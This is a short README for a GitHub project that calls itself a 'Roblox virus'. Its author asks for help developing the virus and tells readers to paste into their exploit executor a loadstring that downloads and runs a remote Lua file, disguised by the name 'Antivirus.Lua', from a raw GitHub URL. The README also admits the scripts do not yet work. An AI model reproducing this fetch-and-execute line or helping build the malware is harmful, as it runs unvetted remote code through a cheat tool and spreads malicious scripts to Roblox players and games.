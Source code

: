 Roblox-virus

Hello! , this is a roblox virus,
but is the Initial-Prelease ,
and please help me in the virus developing

How to use?
Copy in your exploit the loadstring :
loadstring(game:HttpGet(('https://raw.githubusercontent.com/ELJOKER900/Roblox-END/main/Antivirus.Lua'), game.Workspace.ServerScriptService)

(WARNING, SCRIPTS DOES NOT WORKS BECAUSE AN ERROR , PLEASE WAIT)
